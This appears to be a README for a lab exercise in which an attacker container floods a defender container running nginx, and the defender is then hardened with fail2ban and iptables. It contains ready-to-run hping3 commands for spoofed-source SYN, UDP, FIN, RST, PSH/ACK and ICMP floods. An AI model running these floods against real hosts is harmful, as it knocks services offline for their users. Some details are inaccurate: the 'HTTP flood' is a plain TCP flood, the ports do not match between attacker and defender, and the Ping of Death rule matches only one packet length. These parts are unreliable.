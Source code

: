 # Fuck the Hack :)

## Setup two docker containers:

### Attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)

#### Download hping3

```bash
docker pull utkudarilmaz/hping3:latest
```

#### HTTP flood:

```bash
docker run utkudarilmaz/hping3:latest --rand-source --flood localhost -p 8080
```

#### TCP SYN flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -S -q -n --flood localhost -p 8080
```

#### UDP flood:

```bash
docker run utkudarilmaz/hping3:latest --rand-source --udp --flood localhost -p 8080
```

#### TCP FIN Flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -F --flood localhost -p 8080
```

#### TCP RST Flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -R --flood localhost -p 8080
```

#### PUSH and ACK Flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -PA --flood localhost -p 8080
```

#### ICMP Flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -1 --flood localhost -p 8080
```

### Defender container - ubuntu & nginx with simple website.

```docker
FROM ubuntu:20.04

ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update && \
    apt-get install -y nginx && \
    rm -rf /var/lib/apt/lists/*

COPY ./html/index.html /var/www/html/index.html

COPY ./nginx.conf /etc/nginx/nginx.conf

COPY ./scripts/setup_iptables.sh /usr/local/bin/setup_iptables.sh
COPY ./scripts/setup_fail2ban.sh /usr/local/bin/setup_fail2ban.sh

EXPOSE 80

CMD ["nginx", "-g", "daemon off;"]

```

![1.png](images/1.png)

## Try to implement protection on Defender container.

### Setup Fail2Ban

```bash
#!/bin/bash

cat <<EOF > /etc/fail2ban/jail.local
[nginx-http-auth]
enabled  = true
filter   = nginx-http-auth
action   = iptables[name=HTTP, port=http, protocol=tcp]
logpath  = /var/log/nginx/error.log
maxretry = 3
bantime  = 600

[nginx-badbots]
enabled  = true
filter   = nginx-badbots
action   = iptables-multiport[name=BadBots, port="80,443", protocol=tcp]
logpath  = /var/log/nginx/access.log
maxretry = 5
bantime  = 3600
findtime = 600
EOF

cat <<EOF > /etc/fail2ban/filter.d/nginx-badbots.conf
[Definition]
failregex = ^<HOST> -.*GET.*HTTP.*(MJ12bot|AhrefsBot|SemrushBot|Baiduspider|YandexBot).*$
EOF

service fail2ban restart
```

### Setup IPTables

```bash
#!/bin/bash

# 1. Захист від SYN Flood атак (обмеження SYN пакетів)
iptables -A INPUT -p tcp --syn -m limit --limit 1/s -j ACCEPT
iptables -A INPUT -p tcp --syn -j DROP

# 2. Захист від UDP Flood атак (обмеження UDP пакетів)
iptables -A INPUT -p udp -m limit --limit 10/s -j ACCEPT
iptables -A INPUT -p udp -j DROP

# 3. Захист від ICMP Flood атак (обмеження ICMP пакетів)
iptables -A INPUT -p icmp -m limit --limit 1/s -j ACCEPT
iptables -A INPUT -p icmp -j DROP

# 4. Захист від Ping of Death (блокування великих ICMP пакетів)
iptables -A INPUT -p icmp --icmp-type echo-request -m length --length 65535 -j DROP

# 5. Блокування підозрілих або пошкоджених пакетів
iptables -A INPUT -m state --state INVALID -j DROP

# 6. Дозволяємо лише порти для веб-трафіку (HTTP, HTTPS) та SSH
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j ACCEPT

# 7. Відхиляємо всі інші вхідні пакети
iptables -A INPUT -j DROP

# Збереження правил iptables
iptables-save > /etc/iptables/rules.v4
```
